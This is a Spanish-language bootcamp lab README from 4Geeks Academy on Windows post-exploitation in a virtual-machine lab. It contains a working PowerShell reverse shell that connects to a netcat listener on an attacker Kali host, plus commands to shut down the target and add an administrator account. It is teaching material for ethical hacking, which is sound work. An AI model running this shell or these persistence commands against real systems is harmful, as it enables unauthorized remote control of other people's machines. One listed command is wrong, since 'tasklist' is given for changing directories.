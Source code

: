 # Comandos CMD de Windows para Hacking Remoto
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/buffer-overflow-exploit-project/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![build by developers](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/buffer-overflow-exploit-project/blob/main/README.es.md)*
<!-- endhide -->


<!-- hide -->


### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.

![imagen](assets/powershell.png)

<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:

![imagen 1](assets/listening_dir.png)

### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```
![imagen 2](assets/systeminfo.png)

- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```
![imagen 3](assets/ipconfig.png)

- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:

![imagen 4](assets/hostname.png)

- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)


<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->